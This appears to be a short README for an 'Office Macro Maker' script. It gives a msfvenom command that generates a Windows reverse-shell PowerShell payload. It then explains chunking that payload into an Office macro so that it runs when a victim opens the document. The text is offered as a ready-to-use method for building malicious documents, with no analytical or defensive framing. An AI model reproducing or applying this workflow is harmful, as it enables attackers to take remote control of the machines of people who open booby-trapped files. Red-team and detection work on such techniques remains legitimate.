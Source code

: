 # Menu

**Office Macro Maker**

This script is setup to break up larger payloads like a msvfenom powershell payload.
`msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f psh-cmd`

One this prints out you can take the powershell command and paste it into the `Str` variable.
This will then chunk the data into a office macro compatible format and also add in a couple other options.

When all is done you can copy paste the entire output into macros and it should execute once opened.
